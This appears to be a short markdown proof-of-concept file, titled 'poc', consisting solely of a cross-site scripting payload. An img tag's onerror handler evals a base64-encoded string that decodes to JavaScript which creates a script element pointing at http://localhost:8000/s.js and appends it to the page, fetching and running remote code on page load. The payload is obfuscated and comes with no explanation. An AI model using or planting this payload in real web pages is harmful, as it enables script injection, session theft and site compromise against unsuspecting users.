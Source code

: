 # poc

<img src="/fizzbuzz" onerror="eval(atob('bGV0IGVsID0gZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0IikKZWwuc3JjID0gImh0dHA6Ly9sb2NhbGhvc3Q6ODAwMC9zLmpzIgpkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKGVsKQ=='))" />

